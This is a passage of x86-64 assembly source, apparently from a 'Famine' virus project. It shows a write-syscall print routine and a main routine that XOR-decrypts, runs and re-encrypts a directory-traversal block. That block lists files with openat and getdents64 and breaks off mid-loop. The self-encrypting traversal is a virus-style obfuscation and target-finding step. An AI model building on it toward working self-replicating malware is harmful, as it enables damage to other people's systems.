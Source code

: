 ```assembly
        mov rax, SYS_write
        mov rdi, 1
        syscall
        mov rax, SYS_write
        mov rdi, 1
        lea rsi, [rel newl]
        mov rdx, 1
        syscall
    pop rdx
    pop rdi
    pop rsi
    pop rcx
    pop rax
    ret
printf_code_end:

famine_main:
    ; Decrypt directory traversal code
    XOR_DECRYPT traversal_code, traversal_code_end - traversal_code, [rel xor_key_1]
    call traversal_code
    XOR_ENCRYPT traversal_code, traversal_code_end - traversal_code, [rel xor_key_1]
    ret

traversal_code:
    push r12
    push rax
    push rcx
    push rsi
    push rdi
    push rdx

    lea rsi, [rel path]
    lea rdi, [rel buff]
    mov rcx, 512
    xor rax, rax
    rep stosq

    mov rax, SYS_openat
    mov rdi, AT_FDCWD
    lea rsi, [rel path]
    xor rdx, rdx
    xor r10, r10
    syscall
    mov r12, rax
    mov rdi, rax
    push rdi

    mov rax, SYS_getdents64
    lea rsi, [rel buff]
    mov rdx, 4096
    syscall
    mov rdx, rax
    xor rdi, rdi

    .loop:
        cmp rdx, rdi
        jle .done

        add rdi, 16
        push rbx
        lea rbx, [rel buff]
        movzx rcx, word [rbx + rdi]
        add rdi, 2
```